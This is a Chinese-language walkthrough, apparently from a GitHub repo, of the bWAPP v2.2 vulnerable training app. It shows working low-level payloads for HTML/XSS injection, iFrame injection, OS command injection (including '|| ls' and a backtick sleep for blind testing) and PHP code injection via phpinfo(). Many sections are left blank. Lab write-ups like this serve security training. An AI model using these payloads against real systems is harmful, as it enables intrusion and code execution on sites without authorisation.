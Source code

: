 # bWAPP v2.2靶场全解

## HTML Injection - Reflected (GET)

### low

这道题也可以当成xss来做，都是一样的



在一个框中输入payload，另一个框输入任意东西即可：



payload：反正就是有关html的标签他都可以插进去

```
<button onclick=javascript:alert(1)>Fisrt name</button>
```

```
<a href="http://www.baidu.com">Fisrt name</a>
```



都是成功的



### medium



### high





## HTML Injection - Reflected (POST)

### low

反正就是有关html的标签他都可以插进去，payload：

```
<button onclick=javascript:alert(1)>Fisrt name</button>
```

```
<h1 style=color:green>我是大傻逼！</h1>
```

![image-20250225101153808](../../_media/image-20250225101153808.png)



### medium



### high



## HTML Injection - Reflected (URL)

### low

需要进行抓包修改

```
https://bwapp.bachang.org/htmli_current_url.php?a=<h1>123</h1>
```

![image-20250225101715877](../../_media/image-20250225101715877.png)

然后就可以了



![image-20250225101616341](../../_media/image-20250225101616341.png)

### medium



### high



## HTML Injection - Stored (Blog)



### low

拿第一个hack的payload提交都是可以的，因为是low，没有做任何限制，无限制相信用户的输入

```
<button onclick=javascript:alert(1)>Fisrt name</button>
```

```
<a href="http://www.baidu.com">Fisrt name</a>
```

```
<img src=1 onerror=alert(/xss/)>
```

如下：

![image-20250225102134412](../../_media/image-20250225102134412.png)

### medium



### high



## iFrame Injection

### low

初始链接如下：

```
https://bwapp.bachang.org/iframei.php?ParamUrl=robots.txt&ParamWidth=250&ParamHeight=250
```

然后`F12`查看到`iframe`标签的变化

![image-20250225102427494](../../_media/image-20250225102427494.png)



那么构造payload如下：

```
https://bwapp.bachang.org/iframei.php?ParamUrl=https://www.baidu.com&ParamWidth=700&ParamHeight=400
```

![image-20250225102541660](../../_media/image-20250225102541660.png)



当然，读取得了`robots.txt`，理应也是可以读取站内的所有文件

如：

```
index.php
login.php
readme.md
```



### medium



### high



## LDAP Injection (Search) 未



### low



### medium



### high



## Mail Header Injection (SMTP) 未



### low



### medium



### high



## OS Command Injection

### low

经典`DNS lookup`

```
www.nsa.gov || ls
```

![image-20250225103208090](../../_media/image-20250225103208090.png)



```
www.nsa.gov || ipconfig
```

![image-20250225103249277](../../_media/image-20250225103249277.png)





### medium

还是一样的payload可以成功

```
www.nsa.gov || ls
```



### high





## OS Command Injection - Blind

### low

得写脚本进行爆破

人工测试存在盲注

payload:

```
127.0.0.1`sleep 5`
```



延时





## PHP Code Injection

### low

```
https://bwapp.bachang.org/phpi.php?message=phpinfo();
```

![image-20250225103858501](../../_media/image-20250225103858501.png)

